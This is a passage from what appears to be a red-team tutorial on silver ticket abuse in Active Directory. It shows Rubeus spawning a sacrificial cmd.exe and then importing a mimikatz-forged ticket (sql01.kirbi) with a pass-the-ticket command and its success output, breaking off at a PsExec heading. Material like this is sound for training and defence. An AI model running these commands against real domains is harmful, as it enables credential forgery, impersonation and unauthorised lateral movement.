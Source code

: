 


This Rubeus action [createnetonly](https://github.com/GhostPack/Rubeus#createnetonly) and the flag **/show**, will open the program we specify for **/program:**, in this case, **cmd.exe**. That new window is our **sacrificial process**, as it doesn't have the creds of our current user. We will import the **sql01.kirbi ticket** we forged with mimikatz using this window as follows:



## Import the Ticket in the New cmd.exe Process 



	C:\Tools>.\Rubeus.exe ptt /ticket:sql01.kirbi

	   ______        _
	  (_____ \      | |
	   _____) )_   _| |__  _____ _   _  ___
	  |  __  /| | | |  _ \| ___ | | | |/___)
	  | |  \ \| |_| | |_) ) ____| |_| |___ |
	  |_|   |_|____/|____/|_____)____/(___/

	  v2.2.2


	[*] Action: Import Ticket
	[+] Ticket successfully imported!


![Import Ticket](/Ticket-Abuse/Silver-Ticket/images/Import-Ticket.png) 



## Using the New cmd.exe with PsExec 

